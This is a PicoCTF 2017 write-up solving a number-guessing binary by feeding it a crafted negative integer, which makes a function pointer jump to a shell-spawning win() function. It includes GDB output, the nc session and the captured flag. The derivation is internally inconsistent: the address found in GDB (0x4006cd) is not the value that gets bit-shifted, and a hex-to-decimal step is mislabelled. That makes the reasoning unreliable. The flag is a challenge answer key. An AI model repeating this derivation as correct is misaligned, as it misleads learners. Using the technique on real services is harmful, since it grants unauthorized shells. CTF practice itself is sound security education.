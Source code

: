 # PicoCTF_2017: Guess The Number

**Category:** Binary Exploitation
**Points:** 75
**Description:**

>Just a simple number-guessing game. How hard could it be? [Binary](guess_num) [Source](guess_num.c). Connect on shell2017.picoctf.com:57641.

**Hint:**

>What is the program doing with your input number?
strtol checks for overflow, but it does allow negative numbers...

## Write-up
This challenge tests your knowledge on two's complement, bit-shifting and GDB magick. First, let's look at the source code. We really want to `win()`.

    void win(void) {
        printf("Congratulations! Have a shell:\n");
        system("/bin/sh -i");
    }

GDB time!

    $ gdb guess_num
    GNU gdb (Debian 7.7.1+dfsg-5) 7.7.1
    Copyright (C) 2014 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from guess_num...(no debugging symbols found)...done.
    (gdb) info address win
    Symbol "win" is at 0x4006cd in a file compiled without debugging.

Converting `0x4006cd` to hexadecimal gives us `4196045` or `10000000000011011001101`. We need to be able to call upon `((void (*)(void))val)();` to `win()` it, so now we have to figure out how to make `val` point to `win()`.

    val = strtol(buf, NULL, 10);
    printf("You entered %d. Let's see if it was right...\n", val);
    val >>= 4;

We see that `val` gets checked for overflow, and then bit shifted right 4 places. So let's do the same for our pointer, by shifting left 4 places.

    1000000001001000010100101011
    10000000010010000101001010110000 <- add 4 0s

However, now the binary is too large to enter into the system! But wait! We have two's complement and negative numbers to help us!

    10000000010010000101001010110000
    -2142743888

    $ nc shell2017.picoctf.com 57641
    Welcome to the number guessing game!
    I'm thinking of a number. Can you guess it?
    Guess right and you get a shell!
    Enter your number: -2142743888
    You entered -2142743888. Let's see if it was right...
    Congratulations! Have a shell:
    /bin/sh: 0: can't access tty; job control turned off
    $ ls
    flag.txt
    guess_num
    xinetd_wrapper.sh
    $ cat flag.txt
    c2bda0bde530c16fff8a8530addb44f8

Therefore, the flag is `c2bda0bde530c16fff8a8530addb44f8`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbNjYxNjIyOTgwXX0=
-->